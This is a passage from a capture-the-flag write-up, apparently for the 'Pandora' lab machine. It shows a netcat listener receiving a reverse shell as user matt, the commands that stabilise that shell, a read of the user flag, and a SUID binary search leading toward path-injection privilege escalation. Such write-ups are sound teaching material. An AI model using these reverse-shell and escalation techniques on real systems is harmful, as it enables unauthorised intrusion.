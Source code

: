 Checking our listener we got a reverse shell as the user matt which we can upgrade for more stable access.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.174.44.
Ncat: Connection from 10.129.174.44:58018.
bash: cannot set terminal process group (1797): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/var/www/pandora/pandora_console$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ole$ python3 -c 'import pty;pty.spawn("/bin/bash")'
matt@pandora:/var/www/pandora/pandora_console$ export TERM=xterm
export TERM=xterm
matt@pandora:/var/www/pandora/pandora_console$ ^Z
[1]  + 193639 suspended  nc -lnvp 7575
$ stty raw -echo;fg
[1]  + 193639 continued  nc -lnvp 7575

matt@pandora:/var/www/pandora/pandora_console$
```

As matt we are now able to read the user flag.

```
matt@pandora:/var/www/pandora/pandora_console$ wc -c /home/matt/user.txt
33 /home/matt/user.txt
```


# Root

Checking for suid binaries as matt we find a custom and suspicious looking one in `/usr/bin/pandora_backup`.

## Path injection
```
matt@pandora:~$ find / -perm -4000 2>/dev/null
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pandora_backup
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/at
/usr/bin/fusermount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
```
